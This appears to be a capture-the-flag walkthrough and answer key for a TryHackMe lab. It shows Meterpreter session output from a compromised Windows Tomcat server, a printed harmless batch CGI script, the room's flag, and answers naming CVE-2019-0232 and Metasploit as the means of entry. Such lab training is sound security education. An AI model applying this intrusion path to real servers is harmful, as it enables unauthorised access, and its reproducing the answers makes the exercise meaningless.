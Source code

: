 ```bash
meterpreter > ls
Listing: C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi-bin
============================================================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100777/rwxrwxrwx  73802  fil   2021-11-09 07:06:10 +0000  VjIWl.exe
100777/rwxrwxrwx  825    fil   2020-11-19 03:49:25 +0000  elfwhacker.bat
100666/rw-rw-rw-  27     fil   2020-11-19 22:05:43 +0000  flag1.txt

meterpreter > cat flag1.txt 
thm{whacking_all_the_elves}

meterpreter > cat elfwhacker.bat 
@echo off
SET hostname = TBFC-WEB-01
SET user = tbfc-web-01\elfmcskidy
echo Content-Type: text/plain
echo.
echo -------------------------------------------------------
echo Written by ElfMcEager for The Best Festival Company ~CMNatic
echo -------------------------------------------------------
echo.
echo Current time: %date% %time%
echo.
echo -------------------------------------------------------
echo                  Debugging Information
echo -------------------------------------------------------
echo Hostname: TBFC-WEB-01
echo User: tbfc-web-01\elfmcskidy
echo.
echo -------------------------------------------------------
echo                   ELF WHACK COUNTER
echo -------------------------------------------------------
echo.
echo. Number of Elves whacked and sent back to work: %random% 

```

----

# ANSWER THE FOLLOWING :
----

1.What is the version number of the web server?
>>9.0.17

2.What CVE can be used to create a Meterpreter entry onto the machine? (Format: CVE-XXXX-XXXX)
>>CVE-2019-0232

3.Set your Metasploit settings appropriately and gain a foothold onto the deployed machine.
>>No answer needed

4.What are the contents of flag1.txt
>>thm{whacking_all_the_elves}

5.Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
>>No answer needed

----